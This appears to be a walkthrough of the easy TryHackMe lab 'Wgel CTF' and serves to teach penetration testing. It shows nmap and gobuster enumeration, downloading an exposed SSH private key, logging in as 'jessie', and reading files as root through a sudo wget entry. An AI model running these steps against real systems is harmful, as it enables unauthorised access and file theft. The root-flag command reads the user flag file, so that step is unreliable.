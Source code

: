 # Wgel CTF

[Wgel CTF]() is an easy TryHackMe room created by
[MrSeth6797](https://tryhackme.com/p/MrSeth6797).

## Recon

As usual, start off with scanning for open ports and services:

```
$ nmap -sV $IP -oN nmap_scan.txt

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Two open ports:

- **Port 22:** SSH for remote access to the system
- **Port 80:** Apache 2.4.18 HTTP web server

Navigate to the website and check out the page's source code. There is a
comment:

![comment](./screenshots/comment.png)

Take note that Jessie could be a possible username we can use to SSH in.

We can enumerate the website further with a tool like `gobuster`:

```
$ gobuster -u http://10.10.66.133 -w /usr/share/wordlists/dirb/common.txt

/index.html
/server-status
/sitemap
```

The sitemap page looks interesting. Let's scan it further:

```
$ gobuster -u http://10.10.66.133/sitemap -w /usr/share/wordlists/dirb/common.txt
...
/.ssh
/css
/js
```

We found a /.ssh directory! 

![ssh](./screenshots/ssh.png)

An id_rsa key can be used as an alternative method to log into SSH. Meaning, we
do not need a password! Maybe we can try this against the Jessie user found
earlier?

---

## Initial Access

Download the id_rsa key from the webserver with `wget`:

```
$ wget http://10.10.66.133/sitemap/.ssh/id_rsa -O ./id_rsa
```

Now login as Jessie:

```
$ chmod 600 id_rsa
$ ssh jessie@10.10.66.133 -i id_rsa
...
jessie@CorpOne:~$ id
uid=1000(jessie) gid=1000(jessie)
groups=1000(jessie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

The user flag is in ~/Documents/user_flag.txt

```
jessie@CorpOne:~$ cat Documents/user_flag.txt
REDACTED-USER-FLAG
```

---

## Privilege Escalation

Next, we need to read the root user flag. In order to do so, we need root
privileges. 

A good first check is to run `sudo -l` to list what we can run as root:

```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

There are two entries here: (1) we can run all commands as root, but need to
know Jessie's password, and (2) we can run `wget` as root.

According to [the amazing GTFOBins repo](https://gtfobins.github.io/gtfobins/wget/#file-read) we can use `wget` to
read files. We'll use this technique to read the root user's flag:

```
jessie@CorpOne:~$ sudo /usr/bin/wget -i Documents/user_flag.txt 
--2021-05-31 06:27:42-- REDACTED-ROOT-FLAG
```

---

## Lessons Learned

1. Private SSH keys should NOT be openly available for anyone to read!
